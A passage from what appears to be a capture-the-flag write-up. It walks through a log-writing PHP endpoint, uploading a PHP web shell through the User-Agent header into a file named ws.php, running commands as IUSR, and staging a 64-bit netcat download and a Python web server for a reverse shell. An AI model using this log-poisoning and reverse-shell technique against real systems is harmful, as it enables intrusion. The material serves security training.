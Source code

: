 ![registerTest2](/assets/{{ imgDir }}/registerTest2.png)

If we try to log in with the username `test` and password `Testing123!`, we are successful and we are presented with an internal chat application.

![internalChat](/assets/{{ imgDir }}/internalChat.png)

There are two buttons labeled "Refresh" and "Log" in the top right corner of this chat. Pressing the `Refresh` button simply refreshes the chat. The `Log` button, however, results in a request to `/log/log.php`. 

![logRaw](/assets/{{ imgDir }}/logRaw.png)

![logRawResp](/assets/{{ imgDir }}/logRawResp.png)

This request results in the response shown above which only contains the number `1`. The request included a `filename` parameter with the value `log.txt`. Requesting this file with a `GET` request indicates that the `log.php` script is logging the username provided in the `username` parameter together with user agent from the `User-Agent` header. 

![logtxt](/assets/{{ imgDir }}/logtxt.png)

![logtxtResp](/assets/{{ imgDir }}/logtxtResp.png)

We could try to upload a PHP web shell by including it in the `User-Agent` header field and changing the filename to `ws.php`, as demonstrated below.

![uploadWS](/assets/{{ imgDir }}/uploadWS.png)

![uploadWSResp](/assets/{{ imgDir }}/uploadWSResp.png)

If we try to execute the command `whoami`, using the webshell, we can see that our PHP web shell payload was uploaded successfully and provides us with code execution as `nt authority\iusr`! 

![whoami](/assets/{{ imgDir }}/whoami.png)

![whoamiResp](/assets/{{ imgDir }}/whoamiResp.png)

We can execute the command `powershell "[Environment]::Is64BitOperatingSystem"` to check if we are dealing with a 32-bit or 64-bit operating system. Upon doing this, we get the output `True`, meaning that the target operating system is 64-bit. As such, we will create our reverse shell payload using the 64-bit version of netcat to ensure that our reverse shell process is a 64-bit process.

![64bit](/assets/{{ imgDir }}/64bit.png)

We can download the 64-bit version of netcat from [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Once downloaded, we execute `python3 -m http.server 80` to start a python web server.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip@@
--2022-05-08 08:18:16--  https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 109604 (107K) [application/zip]
Saving to: ‘netcat-win32-1.11.zip’

netcat-win32-1.11.zip        100%[==============================================>] 107.04K   535KB/s    in 0.2s    

2022-05-08 08:18:17 (535 KB/s) - ‘@@@netcat-win32-1.11.zip@@@’ @@@saved@@@ [109604/109604]

                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ @@unzip netcat-win32-1.11.zip@@